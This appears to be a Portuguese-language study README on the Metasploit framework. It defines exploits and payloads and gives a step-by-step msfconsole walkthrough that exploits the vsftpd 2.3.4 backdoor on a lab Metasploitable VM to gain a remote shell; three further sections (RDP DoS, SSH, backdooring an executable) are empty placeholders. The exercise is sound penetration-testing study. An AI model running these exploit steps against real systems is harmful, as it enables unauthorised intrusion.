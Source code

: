 # FRAMEWORK METASPLOIT

**Metasploit** é uma plataforma de segurança cibernética usada principalmente para realizar testes de penetração e avaliações de segurança em sistemas de computadores e redes.  
Ele fornece uma coleção de ferramentas e exploits que permitem que profissionais de segurança identifiquem, explorem e documentem vulnerabilidades em sistemas-alvo.  
Um **exploit** é um programa, código ou técnica usado para aproveitar uma vulnerabilidade ou falha de segurança em um sistema, software ou rede.  
O objetivo principal de um exploit é explorar uma falha para realizar ataque.  

**Payload** é um código ou programa malicioso que é entregue e executado após a exploração de uma vulnerabilidade em um sistema  
- *single* = payload completo que realiza todas as acções (conexão inicial e ataque), sem precisar de etapas adicionais
- *stager* = payload pequeno que estabelece apenas a conexão inicial entre o atacante e o alvo
- *stage* = o payload que contém as ações do atacante, e pode ser carregado após o stager estabelecer a comunicação.  
**Meterpreter**, é um payload que funciona por injeção dll, é uma ferramenta “pós invasão”, para testes de penetração e ataques éticos.

  
Para realização dos estudos, utilizei o **mfsconsole**
- Interface de linha de comando do Metasploit
- Permite a execução de exploit, payloads, post-exploration e muito mais

Abaixo, todos os casos de estudo:
- [EXPLORANDO FALHAS NO FTP](#explorando-falhas-no-ftp)
- [ATAQUES DOS NO WINDOWS RDP](#ataques-dos-no-windows-rdp)
- [EXPLORANDO FALHAS NO SSH](#explorando-falhas-no-ssh)
- [ADICIONANDO BACKDOOR EM UM EXECUTÁVEL](#adicionando-backdoor-em-um-executavel)

---

## EXPLORANDO FALHAS NO FTP
Neste exemplo, iremos explorar uma falha na versão 2.3.4 do vsftpd que introduz uma backdoor no servidor FTP.  
Iremos utilizar o Metasploitable como alvo, e o Kali como origem do ataque.  
Estou utilizando os dois sistemas em máquinas virtuais.  

Primeiramente criei um arquivo *teste.txt* no Metasploitable para que possamos manipulá-lo após a invasão.  
No Kali, abriremos o console, entraremos no modo `sudo su` seguiremos os seguintes passos:  
- `msfconsole` = abre o console do metasploit  
- `search vsftpd`  
- `info exploit/unix/ftp/vsftpd_234_hackdoor`  
- `use exploit/unix/ftp/vsftpd_234_hackdoor` = selecionamos o exploit para uso  
- `show options` = mostra os requerimentos que precisamos definir no exploit  
- `set rhosts <ip do metaspoitable>` = ip do nosso alvo  
- `show payloads` = lista os payloads disponíveis  
- `set payload payload/cmd/unix/interact` = este payload permite que o atacante tenha um controle direto sobre a máquina invadida após o exploit  
- `show options` = para ver se os requerimentos estão definidos  
- `exploit`   
- `ls` = irá mostrar o diretório que estamos.  
- `ip addr` = vai mostra o ip da maquina que invadimos.  
E assim, estamos com acesso ao alvo, via terminal.  

---

## ATAQUES DOS NO WINDOWS RDP
...

---

## EXPLORANDO FALHAS NO SSH
...

---

## ADICIONANDO BACKDOOR EM UM EXECUTÁVEL
...
